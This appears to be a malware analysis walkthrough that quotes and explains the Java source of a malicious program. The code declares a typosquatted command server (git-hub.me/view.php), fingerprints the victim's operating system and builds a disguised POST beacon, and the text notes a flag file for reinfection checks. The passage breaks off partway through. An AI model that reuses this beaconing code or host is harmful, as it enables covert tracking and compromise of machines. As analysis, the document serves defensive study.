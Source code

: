 - Declares the malicious site git-hub.me/view.php, where a POST request will be sent soon.

```java
private static final String POST_URL = "https://www.git-hub.me/view.php";
```

- Declares a 8-character random string composed by numbers, which will be later used to create a temporary directory.

```java
private static String randGen() throws IOException {
  String strPool = "123456789";
  StringBuilder sb = new StringBuilder();
  Random rand = new Random();

  for (int i=0; i<8; i++){
      sb.append(strPool.charAt(rand.nextInt(strPool.length())));
  }

  return sb.toString();
}
```

- Identifies operating system in a basic way (just by platform name).

```java
private static String getOperatingSystem() {
  String os = System.getProperty("os.name");
  String result = null;

  if (os.contains("Windows"))
      result = "0";
  else if (os.contains("Linux"))
      result = "2";
  else if (os.contains("Mac OS X"))
      result = "1";
  return result;
}
```

- Crafts a POST request to git-hub.me containing a random generated uid and the identified OS, disguised as arguments from a legit-looking github query (using parameters as GITHUB_REQ).

```java
private static void sendPOST() throws IOException {
        String uid = randGen();
        StringBuilder data = new StringBuilder();
        String sec_path = "";
        data.append("GITHUB_REQ");
        data.append(uid);
        data.append("2000");
        data.append(getOperatingSystem());
```

- Checks for the existence of a flag file, indicating wether the attack was carried before on the infected machine. If the file is not present it will send the request as JSON and create said flag.
